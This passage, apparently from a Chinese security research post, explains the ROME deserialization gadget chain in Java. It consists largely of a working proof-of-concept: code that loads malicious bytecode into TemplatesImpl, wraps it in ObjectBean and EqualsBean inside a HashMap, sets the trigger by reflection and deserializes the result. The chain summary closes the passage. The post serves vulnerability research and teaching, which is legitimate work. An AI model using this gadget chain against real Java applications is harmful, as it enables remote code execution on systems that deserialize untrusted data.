 ```java
    public static void main(String[] args) throws Exception {

        // 生成包含恶意类字节码的 TemplatesImpl 类
        byte[] payloads = Files.readAllBytes(Paths.get("D:\\Security-Testing\\Java-Sec\\Java-Sec-Payload\\target\\classes\\Evail_Class\\Calc_Ab.class"));

        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][] {payloads});
        setFieldValue(templates, "_name", "zjacky");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

        // 使用 TemplatesImpl 初始化被包装类，使其 ToStringBean 也使用 TemplatesImpl 初始化
        ObjectBean delegate = new ObjectBean(Templates.class, templates);

        // 使用 ObjectBean 封装这个类，使其在调用 hashCode 时会调用 ObjectBean 的 toString
        // 先封装一个无害的类
        ObjectBean root = new ObjectBean(ObjectBean.class, new ObjectBean(String.class, "zjacky"));

        // 放入 Map 中
        HashMap map = new HashMap&lt;&gt;();
        map.put(root, "zjacky");
        map.put("1", "1");

        // put 到 map 之后再反射写进去，避免触发漏洞
        Field field = ObjectBean.class.getDeclaredField("_equalsBean");
        field.setAccessible(true);
        field.set(root, new EqualsBean(ObjectBean.class, delegate));

//        serialize(map);
        unserialize("ser.bin");
    }

}

```

​![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-54bda3240a6d0c9b7d5c9083ac54bb07092701cc.png)​

其他利用链
-----

这个链子其实非常简单，所以会有很多排列组合，只需要反序列化入口能够出发hashcode()方法或者最终触发到ToStringBean方法的tostring就行

‍

利用链

```java
HashMap#ReadObject() -&gt; EqualsBean#hashCode() -&gt; ToStringBean#toString(String) -&gt; TemplatesImpl.getOutputProperties()
```

‍
